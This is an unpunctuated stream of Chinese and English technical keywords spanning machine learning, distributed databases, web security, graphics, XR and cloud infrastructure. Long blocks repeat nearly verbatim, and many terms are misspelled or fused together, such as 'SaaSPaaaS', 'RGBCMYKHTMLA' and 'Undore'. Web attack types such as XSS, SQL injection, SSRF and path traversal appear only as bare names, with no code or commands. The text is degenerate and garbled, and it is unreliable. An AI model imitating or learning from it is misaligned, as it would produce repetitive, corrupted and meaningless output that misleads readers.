相关皮尔逊协方克莱文斯顿判别式逻辑回归决策树随机森林支持向量机 SVM 核函数径向基多项式高斯神经网络层激活隐藏层权重偏置正则化 dropoutBatch normalization 残差连接跳跃连接多头注意力全局平均池化归一交叉熵软最大值 K-Means 聚类层次聚类 Gower 距离欧氏马氏海明曼哈顿切比雪夫特征工程 PCA LDA QDA 降维自动编码器生成对抗网络 GAN 风格迁移图像超分辨率生成预训练微调强化学习 Q-learning Sarsa policy gradient Actor-Critic RLHF 人类反馈对齐奖励函数探索利用 ε-greedy Softmax 温度系数马尔科夫链蒙特卡洛 MCMC 重要性采样迹类轨迹期望最大化 EMMixture GMM 隐狄利克雷主题模型 LDABERTRoBaLaDistilBertGPTOpenAIAdaGTP4ClaudeLlamaMistralPhiGeminiPerplexity 困惑度生成质量多样性一致性安全性幻觉抑制提示注入防御对抗样本鲁棒性可解释公平偏见消除数据漂移概念漂移领域自适应跨域迁移少样本零知识证明多方计算同态加密秘密共享可信执行环境 TEE 远程证明安全多方 MPC 差分隐私 k-匿名 l-diversity t-closurentrprise 级解决方案 SaaS PaaS IaaS 混合云私有部署开源替代商业闭源 APIRate limitingThrottling 降级熔断超时重试退避策略幂等性 idempotency 键分布式锁 RedisZookeeperEtcd 一致性哈希 Sharding 分片副本复制主从切换故障转移脑裂 Split-brain 共识算法 RaftPBFTPaxosQuorum 多数派阈值拜占庭容错 BFT 最终一致强一致 CAPBASETRAD 模型 ACIDCAPTHEOREM 两阶段提交三阶段提交 TCC 分布式事务 Saga 事件溯源 CQRSOutbox 模式延迟队列补偿机制消息确认 ACK 手动自动半自动持久化投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点直接消息推送通知实时流批处理 LambdaKappa 模型源端采集 CDCChange data capture 全量增量混合冷热分层压缩归档生命周期管理版本控制冲突解决合并策略乐观悲观并发读写分离多主一从双写一致性最终强一致复制延迟感知局部全局可见性事务隔离级别快照 MVCCWAL 重做日志 undo 回滚保存点检查点预分配自适应哈希分区列存储行存文档图对象键值时序关系搜索全文检索倒排索引正向反向分词中英文标点空白数字日期正则表达式通配符模糊匹配拼音首字母多音字纠正同义词扩展联想推荐召回排序点击率预估转化预测生命周期漏斗分析归因模型归因渠道参数 UTM 追踪像素 PixelJS 代码注入反射 XSSCSRFCookie HijackingSession FixationSQL InjectionNoSQL injectionCommand InjectionFile Upload SSRFDirective MisconfigurationServer Side IncludeHeaderInjectionOpen RedirectPath TraversalInsecure CookiesXSS StoredReflectedDOM 型混合跨域同源策略 CORSJSONPXMLHttp 对象 Fetch APIWeb WorkersService Worker 离线存储 AppCacheStorage quota 限制异步等待 Promiseasync/awaittry-catch 错误处理边界情况空指针数组溢出栈帧回溯调试断点步进表达式求值原型链继承组合类构造函数工厂单例观察者模型发布订阅命令模式责任链条式状态机解释器编译器静态动态类型强弱隐式显式自动手动垃圾回收标记清除复制分代停顿整理算法新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计数循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理时间 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGB CMYK HSV LAB 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧插值样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何纹理光照阴影反射折射全局区域光源环境光遮蔽 SSAOMRTAOcclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线 Levels 遮片阈值调色 HSL RGBCMYKACSGRAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识证明后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaS PaaSaas 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAP BASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undo 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶段补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undo 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐式显示自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHLA 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAOMRTAOcclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAP BASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undo 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶段补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undo 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐式显示自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHLA 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAOMRTAOcclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undo 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHTMLA 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOcclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undo 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHTMLA 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOcclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undo 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHTMLA 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOcclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undo 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHS 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHS 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHS 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHS 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHS 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 网络拓扑物理架构虚拟化容器编排微服务治理 API 网关负载均衡限流熔断降级缓存策略读写分离主从切换分库分表分布式事务 CAPBASE 最终一致强一致性复制延迟感知全局可见性快照 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观隔离级别两阶段提交三阶补偿 Saga 事件溯源 Outbox 模式消息确认 ACK 投递重试死信队列 TopicQueue 分区键广播单播发布订阅点对点实时流批处理 LambdaKappa 模型源端 CDCChange data capture 全量增量冷热分层压缩归档生命周期管理版本冲突合并策略读写分离多主一从双写一致性最终强一致事务隔离级别 MVCCWAL 重做日志 Undore 回滚保存点检查点多版本并发控制乐观悲观并行串行异步同步阻塞非阻塞轮询回调 Promiseasync/await try-catch 异常捕获边界情况空指针对象溢出栈帧回溯断点步进表达式求值原型链继承组合构造函数工厂单例观察者模式发布订阅命令责任链条式状态机解释器编译器静态动态类型强弱隐示显自动手动标记清除复制分代停顿整理新生代老年区游离对象根扫描无锁并发读写内存池预分配引用计循环依赖死环检测泄漏预警性能指标吞吐量延迟带宽利用率队列长度等待时间平均响应请求处理 CPU 负载磁盘 IO 网络 RTTMTTRTP 帧率码率分辨率比特率信噪比色域色彩空间 RGBCMYKHS 对比度亮度饱和度锐化模糊降噪抠像合成滤镜特效动画轨迹关键帧样条曲线贝塞尔 NURBS 变形骨骼绑定蒙皮渲染管线几何材质光照阴影反射折射全局区域光源 SSAMO MRTAOclusion CullingLODLevel of Detail 法线凹凸置换体积云粒子系统物理模拟重力碰撞刚体柔体质料流体烟雾爆炸火球冲击波声波及音效震动反馈触觉交互手势识别眼动追踪面部扫描步态分析情绪计算行为模式用户画像分群定位地理围栏地图导航室内导览 AR 增强现实 MR 混合实境 VR 虚拟现实元宇宙多边形顶点边材质贴图骨骼动画阴影贴图抗锯齿过滤渲染分辨率刷新率垂直同步屏幕撕裂重影延迟运动模糊景深虚化曝光补偿白平衡自动对焦测光模式直方图曲线遮片阈值调色 HSL RGBCMYKKCSAI 生成内容深度神经网络监督非监督半无迁移强化对抗联邦隐私计算同态安全多方执行环境可信数字身份去中心化自治组织 DAO 通证经济学激励机制共识证明区块链分布式账本智能合约零知识后量子加密侧信道攻击故障注入混沌工程容灾备份异地归档私有云公有云平台即服务 SaaSPaaaS 多租户隔离虚拟专用网 VPN 